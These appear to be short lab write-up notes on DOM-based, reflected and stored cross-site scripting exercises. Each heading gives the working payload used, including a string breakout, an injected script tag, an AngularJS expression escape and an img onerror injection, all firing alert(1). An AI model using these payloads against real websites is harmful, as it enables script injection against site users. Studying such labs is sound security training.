 ```
/?search=nquangit%27;alert(1);//
-> /?search=nquangit';alert(1);//

The HTML code will become:

<script>
    var searchTerms = 'nquangit';alert(1);//';
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
</script>
```

# Lab: DOM XSS in `document.write` sink using source `location.search` inside a select element

```
/product?productId=1&storeId=123<script>alert(1)</script>
```

# Lab: DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded

```
/?search={{$on.constructor(%27alert(1)%27)()}}

Like SSTI
```

# Lab: Reflected DOM XSS

```plaintext
eval('var searchResultsObj = ' + this.responseText);


/?search=%5C"-1alert%281%29%7D%2F%2F
-> /?search=`\"-alert(1)}//`
```

# Lab: Stored DOM XSS

```
The replace for string only repace the first string that it found.

<><img src= onerror=alert(1)>
```

# Lab: Reflected XSS into HTML context with most tags and attributes blocked
